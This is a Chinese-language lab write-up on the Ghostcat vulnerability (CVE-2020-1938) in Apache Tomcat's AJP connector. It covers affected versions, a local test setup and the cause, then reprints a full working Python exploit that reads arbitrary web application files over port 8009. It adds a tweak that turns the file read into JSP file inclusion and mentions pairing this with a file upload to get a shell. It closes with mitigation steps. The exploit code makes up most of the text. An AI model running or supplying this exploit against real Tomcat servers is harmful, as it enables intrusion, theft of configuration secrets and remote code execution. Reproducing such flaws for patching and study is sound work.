







##  Tomcat 文件读取/包含漏洞（CNVD-2020-10487 && CVE-2020-1938）

### 影响范围
Apache Tomcat 9.x < 9.0.31

Apache Tomcat 8.x < 8.5.51

Apache Tomcat 7.x < 7.0.100

Apache Tomcat 6.x

### 环境搭建

这里我们以8.5.50版本为例，复现此漏洞。

Java JDK版本为：


根据自己的平台[下载](https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.50/bin/)Tomcat，这里我下载`apache-tomcat-8.5.50-windows-x64.zip`



下载完之后解压，进入bin目录，运行`.\startup.bat`，启动tomcat.


访问`http://127.0.0.1:8080/`,如下：


至此，环境搭建完成。

### 漏洞成因

对于处在漏洞影响版本范围内的 Tomcat 而言，若其开启 `AJP Connector` 且攻击者能够访问 `AJP Connector` 服务端口的情况下，即存在被 Ghostcat 漏洞利用的风险。

我们可以查看`tomcat\conf\server.xml`配置文件，是否开启了AJP服务，在tomcat v8.5.50 中AJP 服务默认开启，监听端口为0.0.0.0:8009，如下：


`netstat -ano | findstr 8009`


### 漏洞复现

[POC地址](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

脚本不支持python3，仅支持python2，更改两处地方，使其支持python3：
```python
1. self.socket.makefile("rb", bufsize=0) -->change self.socket.makefile("rb", buffering=0)

//最后一行更改
2. print("".join([d.data for d in data])) -->print("".join([d.data.decode() for d in data]))
```

完整代码:
``` python
#!/usr/bin/env python
#CNVD-2020-10487  Tomcat-Ajp lfi
#by ydhcui
import struct

# Some references:
# https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
def pack_string(s):
	if s is None:
		return struct.pack(">h", -1)
	l = len(s)
	return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)
def unpack(stream, fmt):
	size = struct.calcsize(fmt)
	buf = stream.read(size)
	return struct.unpack(fmt, buf)
def unpack_string(stream):
	size, = unpack(stream, ">h")
	if size == -1: # null string
		return None
	res, = unpack(stream, "%ds" % size)
	stream.read(1) # \0
	return res
class NotFoundException(Exception):
	pass
class AjpBodyRequest(object):
	# server == web server, container == servlet
	SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)
	MAX_REQUEST_LENGTH = 8186
	def __init__(self, data_stream, data_len, data_direction=None):
		self.data_stream = data_stream
		self.data_len = data_len
		self.data_direction = data_direction
	def serialize(self):
		data = self.data_stream.read(AjpBodyRequest.MAX_REQUEST_LENGTH)
		if len(data) == 0:
			return struct.pack(">bbH", 0x12, 0x34, 0x00)
		else:
			res = struct.pack(">H", len(data))
			res += data
		if self.data_direction == AjpBodyRequest.SERVER_TO_CONTAINER:
			header = struct.pack(">bbH", 0x12, 0x34, len(res))
		else:
			header = struct.pack(">bbH", 0x41, 0x42, len(res))
		return header + res
	def send_and_receive(self, socket, stream):
		while True:
			data = self.serialize()
			socket.send(data)
			r = AjpResponse.receive(stream)
			while r.prefix_code != AjpResponse.GET_BODY_CHUNK and r.prefix_code != AjpResponse.SEND_HEADERS:
				r = AjpResponse.receive(stream)

			if r.prefix_code == AjpResponse.SEND_HEADERS or len(data) == 4:
				break
class AjpForwardRequest(object):
	_, OPTIONS, GET, HEAD, POST, PUT, DELETE, TRACE, PROPFIND, PROPPATCH, MKCOL, COPY, MOVE, LOCK, UNLOCK, ACL, REPORT, VERSION_CONTROL, CHECKIN, CHECKOUT, UNCHECKOUT, SEARCH, MKWORKSPACE, UPDATE, LABEL, MERGE, BASELINE_CONTROL, MKACTIVITY = range(28)
	REQUEST_METHODS = {'GET': GET, 'POST': POST, 'HEAD': HEAD, 'OPTIONS': OPTIONS, 'PUT': PUT, 'DELETE': DELETE, 'TRACE': TRACE}
	# server == web server, container == servlet
	SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)
	COMMON_HEADERS = ["SC_REQ_ACCEPT",
		"SC_REQ_ACCEPT_CHARSET", "SC_REQ_ACCEPT_ENCODING", "SC_REQ_ACCEPT_LANGUAGE", "SC_REQ_AUTHORIZATION",
		"SC_REQ_CONNECTION", "SC_REQ_CONTENT_TYPE", "SC_REQ_CONTENT_LENGTH", "SC_REQ_COOKIE", "SC_REQ_COOKIE2",
		"SC_REQ_HOST", "SC_REQ_PRAGMA", "SC_REQ_REFERER", "SC_REQ_USER_AGENT"
	]
	ATTRIBUTES = ["context", "servlet_path", "remote_user", "auth_type", "query_string", "route", "ssl_cert", "ssl_cipher", "ssl_session", "req_attribute", "ssl_key_size", "secret", "stored_method"]
	def __init__(self, data_direction=None):
		self.prefix_code = 0x02
		self.method = None
		self.protocol = None
		self.req_uri = None
		self.remote_addr = None
		self.remote_host = None
		self.server_name = None
		self.server_port = None
		self.is_ssl = None
		self.num_headers = None
		self.request_headers = None
		self.attributes = None
		self.data_direction = data_direction
	def pack_headers(self):
		self.num_headers = len(self.request_headers)
		res = ""
		res = struct.pack(">h", self.num_headers)
		for h_name in self.request_headers:
			if h_name.startswith("SC_REQ"):
				code = AjpForwardRequest.COMMON_HEADERS.index(h_name) + 1
				res += struct.pack("BB", 0xA0, code)
			else:
				res += pack_string(h_name)

			res += pack_string(self.request_headers[h_name])
		return res

	def pack_attributes(self):
		res = b""
		for attr in self.attributes:
			a_name = attr['name']
			code = AjpForwardRequest.ATTRIBUTES.index(a_name) + 1
			res += struct.pack("b", code)
			if a_name == "req_attribute":
				aa_name, a_value = attr['value']
				res += pack_string(aa_name)
				res += pack_string(a_value)
			else:
				res += pack_string(attr['value'])
		res += struct.pack("B", 0xFF)
		return res
	def serialize(self):
		res = ""
		res = struct.pack("bb", self.prefix_code, self.method)
		res += pack_string(self.protocol)
		res += pack_string(self.req_uri)
		res += pack_string(self.remote_addr)
		res += pack_string(self.remote_host)
		res += pack_string(self.server_name)
		res += struct.pack(">h", self.server_port)
		res += struct.pack("?", self.is_ssl)
		res += self.pack_headers()
		res += self.pack_attributes()
		if self.data_direction == AjpForwardRequest.SERVER_TO_CONTAINER:
			header = struct.pack(">bbh", 0x12, 0x34, len(res))
		else:
			header = struct.pack(">bbh", 0x41, 0x42, len(res))
		return header + res
	def parse(self, raw_packet):
		stream = StringIO(raw_packet)
		self.magic1, self.magic2, data_len = unpack(stream, "bbH")
		self.prefix_code, self.method = unpack(stream, "bb")
		self.protocol = unpack_string(stream)
		self.req_uri = unpack_string(stream)
		self.remote_addr = unpack_string(stream)
		self.remote_host = unpack_string(stream)
		self.server_name = unpack_string(stream)
		self.server_port = unpack(stream, ">h")
		self.is_ssl = unpack(stream, "?")
		self.num_headers, = unpack(stream, ">H")
		self.request_headers = {}
		for i in range(self.num_headers):
			code, = unpack(stream, ">H")
			if code > 0xA000:
				h_name = AjpForwardRequest.COMMON_HEADERS[code - 0xA001]
			else:
				h_name = unpack(stream, "%ds" % code)
				stream.read(1) # \0
			h_value = unpack_string(stream)
			self.request_headers[h_name] = h_value
	def send_and_receive(self, socket, stream, save_cookies=False):
		res = []
		i = socket.sendall(self.serialize())
		if self.method == AjpForwardRequest.POST:
			return res

		r = AjpResponse.receive(stream)
		assert r.prefix_code == AjpResponse.SEND_HEADERS
		res.append(r)
		if save_cookies and 'Set-Cookie' in r.response_headers:
			self.headers['SC_REQ_COOKIE'] = r.response_headers['Set-Cookie']

		# read body chunks and end response packets
		while True:
			r = AjpResponse.receive(stream)
			res.append(r)
			if r.prefix_code == AjpResponse.END_RESPONSE:
				break
			elif r.prefix_code == AjpResponse.SEND_BODY_CHUNK:
				continue
			else:
				raise NotImplementedError
				break

		return res

class AjpResponse(object):
	_,_,_,SEND_BODY_CHUNK, SEND_HEADERS, END_RESPONSE, GET_BODY_CHUNK = range(7)
	COMMON_SEND_HEADERS = [
			"Content-Type", "Content-Language", "Content-Length", "Date", "Last-Modified",
			"Location", "Set-Cookie", "Set-Cookie2", "Servlet-Engine", "Status", "WWW-Authenticate"
			]
	def parse(self, stream):
		# read headers
		self.magic, self.data_length, self.prefix_code = unpack(stream, ">HHb")

		if self.prefix_code == AjpResponse.SEND_HEADERS:
			self.parse_send_headers(stream)
		elif self.prefix_code == AjpResponse.SEND_BODY_CHUNK:
			self.parse_send_body_chunk(stream)
		elif self.prefix_code == AjpResponse.END_RESPONSE:
			self.parse_end_response(stream)
		elif self.prefix_code == AjpResponse.GET_BODY_CHUNK:
			self.parse_get_body_chunk(stream)
		else:
			raise NotImplementedError

	def parse_send_headers(self, stream):
		self.http_status_code, = unpack(stream, ">H")
		self.http_status_msg = unpack_string(stream)
		self.num_headers, = unpack(stream, ">H")
		self.response_headers = {}
		for i in range(self.num_headers):
			code, = unpack(stream, ">H")
			if code <= 0xA000: # custom header
				h_name, = unpack(stream, "%ds" % code)
				stream.read(1) # \0
				h_value = unpack_string(stream)
			else:
				h_name = AjpResponse.COMMON_SEND_HEADERS[code-0xA001]
				h_value = unpack_string(stream)
			self.response_headers[h_name] = h_value

	def parse_send_body_chunk(self, stream):
		self.data_length, = unpack(stream, ">H")
		self.data = stream.read(self.data_length+1)

	def parse_end_response(self, stream):
		self.reuse, = unpack(stream, "b")

	def parse_get_body_chunk(self, stream):
		rlen, = unpack(stream, ">H")
		return rlen

	@staticmethod
	def receive(stream):
		r = AjpResponse()
		r.parse(stream)
		return r

import socket

def prepare_ajp_forward_request(target_host, req_uri, method=AjpForwardRequest.GET):
	fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)
	fr.method = method
	fr.protocol = "HTTP/1.1"
	fr.req_uri = req_uri
	fr.remote_addr = target_host
	fr.remote_host = None
	fr.server_name = target_host
	fr.server_port = 80
	fr.request_headers = {
		'SC_REQ_ACCEPT': 'text/html',
		'SC_REQ_CONNECTION': 'keep-alive',
		'SC_REQ_CONTENT_LENGTH': '0',
		'SC_REQ_HOST': target_host,
		'SC_REQ_USER_AGENT': 'Mozilla',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'en-US,en;q=0.5',
		'Upgrade-Insecure-Requests': '1',
		'Cache-Control': 'max-age=0'
	}
	fr.is_ssl = False
	fr.attributes = []
	return fr

class Tomcat(object):
	def __init__(self, target_host, target_port):
		self.target_host = target_host
		self.target_port = target_port

		self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
		self.socket.connect((target_host, target_port))
		self.stream = self.socket.makefile("rb", buffering=0)

	def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):
		# 文件读取
		# self.req_uri = req_uri
		# 文件包含
		self.req_uri = req_uri + ".jsp"
		self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
		print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))
		if user is not None and password is not None:
			self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')
		for h in headers:
			self.forward_request.request_headers[h] = headers[h]
		for a in attributes:
			self.forward_request.attributes.append(a)
		responses = self.forward_request.send_and_receive(self.socket, self.stream)
		if len(responses) == 0:
			return None, None
		snd_hdrs_res = responses[0]
		data_res = responses[1:-1]
		if len(data_res) == 0:
			print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)
		return snd_hdrs_res, data_res

'''
javax.servlet.include.request_uri
javax.servlet.include.path_info
javax.servlet.include.servlet_path
'''

import argparse
parser = argparse.ArgumentParser()
parser.add_argument("target", type=str, help="Hostname or IP to attack")
parser.add_argument('-p', '--port', type=int, default=8009, help="AJP port to attack (default is 8009)")
parser.add_argument("-f", '--file', type=str, default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
args = parser.parse_args()
t = Tomcat(args.target, args.port)
_,data = t.perform_request('/lxhtest',attributes=[
    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},
    {'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},
    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
    ])
print('----------------------------')
print("".join([d.data.decode() for d in data]))
# print("".join([d.data for d in data]))
```
**读文件**



**文件包含**
将`self.req_uri = req_uri` 更改为 `self.req_uri = req_uri + ".jsp"`


配合文件上传，getshell


### 修复建议
1 . 升级最新版Tomcat
2 . 如果不方便升级Tomcat，且没有使用Tomcat AJP 协议，则可以关闭Tomcat AJP协议，具体操作如下：
1）修改server.xml文件`tomcat\conf\server.xml`，将AJP服务关闭。
将此行注释掉（或直接删掉此行）：
```
<!--<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />-->
```

2）更改完毕后，记得重启Tomcat服务器,使配置生效。

3 .如果不方便升级Tomcat，且使用Tomcat AJP 协议，建议为 AJP Connector 配置 requiredSecret 来设置 AJP 协议认证凭证
```
<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" address="YOUR_TOMCAT_IP_ADDRESS" requiredSecret="YOUR_TOMCAT_AJP_SECRET"/>
```
